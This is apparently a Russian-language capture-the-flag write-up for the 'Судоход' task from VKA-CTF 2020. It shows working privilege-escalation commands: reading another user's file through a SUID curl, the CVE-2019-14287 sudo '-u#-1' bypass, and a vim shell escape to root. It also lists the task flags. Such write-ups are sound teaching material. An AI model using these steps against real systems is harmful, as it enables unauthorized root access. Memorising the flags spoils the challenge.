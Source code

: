 ## Судоход

| Событие | Название | Категория | Сложность |
|:--------|:---------|:----------|----------:|
| VKA-CTF`2020 | Судоход | HTB | АБИТУРА/1-3 курс |

### Описание
> Автор: [ 𝕂𝕣𝕒𝕦𝕤𝕖 ]
>
> Действительно ли это безопасно?
>
>`ssh reborn@example.com`

### Решение
#### USER
---
У утилиты `cURL` установлен `SUID bit`, а владелцем данного файла является `super-server`. Используем это, чтобы читать файлы этого пользователя.
```bash
> curl file:///home/super-server/user.txt
vka{wh47_15_5u1d_b17
```

**Флаг:**

> vka{wh47_15_5u1d_b17}

#### ROOT
---
Посмотрим на команды, которые мы может выполнить от имени суперпользователя
```bash
$ sudo -l
User reborn may run the following commands on host:
    (ALL, !root) NOPASSWD: /usr/bin/vim
```
Данная настройка конфигурации является уязвимой для выполнения указанной команды от имени суперпользователя, если установлен SUDO версией меньшей, чем 1.8.28
[CVE-2019-14287](https://www.sudo.ws/alerts/minus_1_uid.html)

```bash
$ sudo -u#-1 vim
```

Далее необходимо получить `shell`. На сайте [gtfobins](https://gtfobins.github.io/gtfobins/vim/) указано, как это сделать
```
:set shell=/bin/bash
:shell
```
Получаем `shell` с правами суперпользователя и читаем флаг
```bash
$ id
uid=0(root) gid=1001(reborn) groups=1001(reborn)
```

**Флаг:**

> vka{n3v3r_f0r637_CV3}